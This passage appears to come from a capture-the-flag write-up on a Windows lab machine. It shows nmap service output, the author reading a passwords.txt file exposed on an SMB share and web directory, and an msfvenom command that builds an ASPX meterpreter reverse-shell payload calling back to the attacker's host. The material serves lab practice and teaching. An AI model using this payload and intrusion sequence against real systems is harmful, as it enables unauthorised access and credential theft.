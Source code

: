 ```bash
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-12-31T12:26:41+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h36m00s, deviation: 3h34m42s, median: -1s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-12-31T04:26:46-08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-12-31T12:26:42
|_  start_date: 2023-12-31T12:20:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.81 seconds
```

And I got other 3 ports.

First thing that I am going to do is trying open the other web page:

Which is the same as the other.

Apart that this time I can enter the `nt4wrksv` directory that I have found in the samba share. (http://10.10.161.53:49663/nt4wrksv)

from the web page I can also access the passwords.txt file. (http://10.10.161.53:49663/nt4wrksv/passwords.txt)

And having the privilege to put file using smbclient I was able to open a reverse shell using:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.18.20.116 LPORT=4555 -f aspx -o rev.aspx
```
